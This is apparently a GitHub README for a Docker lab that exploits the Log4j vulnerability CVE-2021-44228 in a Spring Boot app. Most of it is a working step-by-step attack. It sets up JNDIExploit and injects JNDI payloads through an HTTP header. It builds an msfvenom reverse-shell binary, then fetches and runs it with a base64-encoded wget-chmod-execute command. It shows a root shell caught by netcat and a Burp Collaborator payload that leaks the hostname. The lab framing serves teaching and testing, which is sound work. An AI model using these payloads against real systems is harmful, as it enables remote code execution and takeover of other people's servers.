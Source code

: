 # Log4j Vulnerability
According to https://www.lunasec.io/docs/blog/log4j-zero-day/, most of the log4j v2 versions are affected.

Log4j V2 affected versions:

__2.0-beta9 <= Apache log4j <= 2.14.1__

## Tools needed

In order to exploit the vulnerability, specific version of springboot and java 8 is needed.

* JDK 1.8.0_181.
* Springboot 2.6.1 (is uses spring-boot-starter-log4j2 2.6.1)

or
* docker

In order to check if springboot project contains one of the log4j affected versions, run the following command:

```shell
./gradlew dependencies 
```

For this project, the output of the previous command:

![](assets/dependency-tree.png)

## Run the app
1) With the specified java version, just run the application

or

2) Using docker, by running the script:
```shell
./start-app.sh
```

## Using JNDI-Injection-Exploit to Exploit.

Target: 172.17.0.2

Attacker: 172.17.0.1

```shell
$ cd tools/
$ unzip JNDIExploit.v1.2.zip
$ cd JNDIExploit.v1.2/
$ java -jar JNDIExploit-1.2-SNAPSHOT.jar -h
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Usage: java -jar JNDIExploit-1.2-SNAPSHOT.jar [options]
  Options:
  * -i, --ip       Local ip address
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8080)
    -u, --usage    Show usage (default: false)
    -h, --help     Show this help
```

* Encode our command line using base64. In this case, from target machine will be send ping commands to attacker machine
```shell
$ echo 'ping -c 5 172.17.0.1' | base64 -w 0
```

Note: For macOs:
```shell
$ echo 'ping -c 5 172.17.0.1' | base64
```

* use JNDIExploit to spin up a malicious LDAP server
```shell
$ java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.17.0.1 -p 8888
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
```

* then, run this command below to trigger our ping command from target machine
```shell
$ curl 172.17.0.2:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/cGluZyAtYyA1IDE3Mi4xNy4wLjEK}'
```

* let's see the output from JNDIExploit
```shell
...
[+] Received LDAP Query: Basic/Command/Base64/cGluZyAtYyA1IDE3Mi4xNy4wLjEK
[+] Paylaod: command
[+] Command: ping -c 5 172.17.0.1

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/cGluZyAtYyA1IDE3Mi4xNy4wLjEK with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/cGluZyAtYyA1IDE3Mi4xNy4wLjEK redirecting to http://172.17.0.1:8888/ExploitX07BVXemV5.class
[+] New HTTP Request From /172.17.0.2:58630  /ExploitX07BVXemV5.class
[+] Receive ClassRequest: ExploitX07BVXemV5.class
[+] Response Code: 200
```

* now, we can capture using tcpdump the ping commands from target machine
```shell
$ sudo tcpdump -i docker0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on docker0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
22:32:07.210584 IP 172.17.0.2 > kali: ICMP echo request, id 33792, seq 0, length 64
22:32:07.210594 IP kali > 172.17.0.2: ICMP echo reply, id 33792, seq 0, length 64
22:32:08.210938 IP 172.17.0.2 > kali: ICMP echo request, id 33792, seq 1, length 64
22:32:08.210965 IP kali > 172.17.0.2: ICMP echo reply, id 33792, seq 1, length 64
22:32:09.211367 IP 172.17.0.2 > kali: ICMP echo request, id 33792, seq 2, length 64
22:32:09.211391 IP kali > 172.17.0.2: ICMP echo reply, id 33792, seq 2, length 64
22:32:10.211569 IP 172.17.0.2 > kali: ICMP echo request, id 33792, seq 3, length 64
22:32:10.211592 IP kali > 172.17.0.2: ICMP echo reply, id 33792, seq 3, length 64
22:32:11.211814 IP 172.17.0.2 > kali: ICMP echo request, id 33792, seq 4, length 64
22:32:11.211848 IP kali > 172.17.0.2: ICMP echo reply, id 33792, seq 4, length 64
```

### Remote Code Execution - CTF Style "How to get a reverse shell"
```shell
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f elf -o /tmp/rev.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: /tmp/rev.elf
```

* prepare local server using python on our attacking machine
```shell
$ sudo python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

* encode this command line below using base64
```shell
wget http://172.17.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf
```

* copy base64 output
```shell
$ echo 'wget http://172.17.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf' | base64
d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK
```

* use JNDIExploit to spin up a malicious LDAP server
```shell
$ java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.17.0.1 -p 8888
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
...
```

* then, run the command below to trigger our command
```shell
$ curl 172.17.0.2:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK}'
Hello, world!
```

* start netcat reverse shell on attacker machine nc -lvnp 4444, then netcat will be trigger a reverse shell
````shell
$ nc -lvnp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:42176.
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
whoami
root
````

* the output from JNDIExploit
```shell
...
[+] Received LDAP Query: Basic/Command/Base64/d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK
[+] Paylaod: command
[+] Command: wget http://172.17.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK redirecting to http://172.17.0.1:8888/ExploitgV2vh72T6X.class
[+] New HTTP Request From /172.17.0.2:58650  /ExploitgV2vh72T6X.class
[+] Receive ClassRequest: ExploitgV2vh72T6X.class
[+] Response Code: 200
```

## get hostname using burp suite collaborator

* payload
```shell
${jndi:ldap://${hostName}.our-link.burpcollaborator.net/}
```

**Output**
![](assets/dns-query.png)

https://github.com/twseptian/spring-boot-log4j-cve-2021-44228-docker-lab

